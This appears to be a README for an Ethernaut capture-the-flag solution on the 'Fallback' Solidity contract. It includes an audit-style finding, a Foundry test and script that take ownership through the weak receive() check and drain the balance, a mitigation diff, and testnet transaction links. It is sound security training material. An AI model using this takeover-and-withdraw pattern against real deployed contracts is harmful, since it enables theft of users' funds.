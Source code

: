 # Level 1: Fallback

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

**Description**:

Look carefully at the contract's code below.

You will beat this level if

you claim ownership of the contract
you reduce its balance to 0
  Things that might help

How to send ether when interacting with an ABI
How to send ether outside of the ABI
Converting to and from wei/ether units (see `help()` command)
Fallback methods


**Code**:

The smart contract to be exploited:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

</details>

# Findings

### [H-1] Weak comparison can lead to an attack that loses ownership and reduces all contract balances cheaply

**Description**: The comparison `msg.value > 0 && contributions[msg.sender] > 0` in `Fallback::receive` function should not compare only if the contribution is greater than zero, this leads a malicious address to send an ETH contribution using `Fallback::contribute` function and send ETH directly to the contract right after. Then the malicious address can claim ownership by just sending `1 wei`, for example, since the `msg.value` is greater than zero and the `contributions[msg.sender]` is too. After claiming the ownership the address can execute the `Fallback::withdraw` function and steal all the contract balances.

**Impact**: Any strange address could claim the ownership and therefore, steal all the contract balances using the `Fallback::withdraw` function.

**Proof of Code**:

See the complete code in `test/FallbackAttack.t.sol`.

<details>

<summary>See Code</summary>

```javascript
  function testShouldStealContractBalance() public{
    address contribuitor1 = vm.addr(1);
    address contribuitor2 = vm.addr(2);
    vm.deal(contribuitor1, 1e18);
    vm.deal(contribuitor2, 1e18);

    vm.prank(contribuitor1);
    fallbackContract.contribute{value: 100 wei}();

    vm.prank(contribuitor2);
    fallbackContract.contribute{value: 100 wei}();

    assertEq(address(fallbackContract).balance, 200);

    // attack
    vm.startPrank(owner);

    // Contributing
    fallbackContract.contribute{value: 1}();
    
    // Sending eth
    (bool success,) = payable(address(fallbackContract)).call{value: 1}("");
    if(!success) revert();

    // Withdrawing all eth
    fallbackContract.withdraw();

    vm.stopPrank();

    assertEq(fallbackContract.owner(), owner);
    assertEq(address(owner).balance, INITIAL_BALANCE + 200);
    assertEq(address(fallbackContract).balance, 0);
  }
```

</details>

**Recommended Mitigation**: The mitigation depends on the project requirements. But here are some ways we could fix this issue:

1. Remove the `Fallback::receive` function and only allow users to contribute through `Fallback::contribute` function.
2. Update the `Fallback::receive` comparison to `msg.value > 0 && contributions[msg.sender] > contributions[owner]`. This would ensure that the ownership is only changed if the user contribution is greater than the last owner. This would be like:

```diff
receive() external payable {
-   require(msg.value > 0 && contributions[msg.sender] > 0);
+   require(msg.value > 0 && contributions[msg.sender] > contributions[owner]);
    owner = msg.sender;
}
```

# Attack

**Description**: The attack used the strategy tested in `FallbackAttack.t.sol`, so we just need to build a script as `FallbackAttack.s.sol` that implements this strategy and sends to the chain.

Code snippet:

```javascript
  // Contributing
  fallbackContract.contribute{value: 1 wei}();

  // Sending eth
  (bool success,) = payable(address(fallbackContract)).call{value: 1 wei}("");
  if(!success) revert();

  // Withdrawing all eth
  fallbackContract.withdraw();
```

**Instance used**: [0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25](https://sepolia.etherscan.io/address/0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25)

**Attack Transactions**: [see on etherscan](https://sepolia.etherscan.io/address/0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xc28ef761dac3c5bd93ab5c5bc036953d70fbe1081430537b5f2b0313d08ad208)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```